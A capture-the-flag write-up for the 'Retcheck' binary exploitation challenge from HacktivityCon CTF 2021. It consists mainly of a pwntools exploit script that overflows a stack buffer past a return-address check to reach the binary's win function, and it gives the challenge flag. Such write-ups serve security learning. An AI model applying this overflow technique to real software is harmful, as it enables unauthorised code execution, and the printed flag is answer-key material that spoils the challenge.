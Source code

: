 ```yaml
---
name: Retcheck (2021)
event: HacktivityCon CTF 2021
category: Pwn
description: Writeup for Retcheck (pwn) - HacktivityCon CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Retcheck

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/niPj8jYahV0/0.jpg)](https://youtu.be/niPj8jYahV0?t=910s "HacktivityCon 2021: Retcheck")

## Challenge Description

> Stack canaries are overrated.

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Find offset to EIP/RIP for buffer overflows
def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter('>', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    ip_offset = cyclic_find(p.corefile.pc)  # x86
    # ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './retcheck'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = 400

# Start program
io = start()

# Build the payload
payload = flat([
    asm('nop') * 408,
    0x401465,  # canary (main+18)
    asm('nop') * 8,
    elf.symbols.win
])

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter('!', payload)

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `flag{a73dc20c1cd1f918ae7b591e8625e349}`
